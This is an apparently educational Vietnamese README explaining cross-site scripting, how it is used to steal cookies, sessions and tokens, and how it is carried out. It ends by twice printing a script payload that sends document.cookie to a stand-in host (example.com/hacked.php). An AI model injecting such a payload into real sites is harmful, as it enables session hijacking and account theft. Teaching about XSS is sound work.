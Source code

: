 #XSS
XSS
![image](https://user-images.githubusercontent.com/54978467/134615358-41820711-e2dc-4506-9f6a-d4537bd74352.png)

1. Cross-site scripting XSS là gì?
Cross-site scripting (a.k.a XSS) là một lỗ hổng bảo mật web phổ biến và dễ bị tấn công nhất cho phép kẻ tấn công thực thi script trên Client.

Thông thường, các cuộc tấn công XSS được sử dụng để vượt qua truy cập và mạo danh người dùng.

Mục đích chính của cuộc tấn công này là ăn cắp dữ liệu nhận dạng của người dùng như:

cookies
session
token
các thông tin khác....
Trong hầu hết các trường hợp, cuộc tấn công này đang được sử dụng để ăn cắp cookie của người khác.

Như chúng ta biết, cookie giúp ta đăng nhập tự động.

Do đó khi cookie bị đánh cắp, ta có thể đăng nhập bằng các thông tin nhận dạng khác.

Và đây là một trong những lý do, tại sao cuộc tấn công này được coi là một trong những cuộc tấn công nguy hiểm nhất.

Tấn công XSS đang được thực hiện ở phía client.

Nó có thể được thực hiện với các ngôn ngữ lập trình phía client khác nhau.

Tuy nhiên, thường xuyên nhất cuộc tấn công này được thực hiện với Javascript và HTML.

2. XSS được thực hiện như thế nào?
Tấn công XSS là gửi và chèn script độc hại, những mã độc này được viết bằng các ngôn ngữ ở client như Javascript, HTML, CSS VBScript,... Tuy nhiên phổ biến nhất là Javascript và HTML. Có rất nhiều các thức để thực hiện cuộc tấn công này, phụ thuộc vào nhiều trường hợp khác nhau.

a. Nguyên nhân
[<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>]

<script>fetch(`http://example.com/hacked.php?xss=${document.cookie}`)</script>
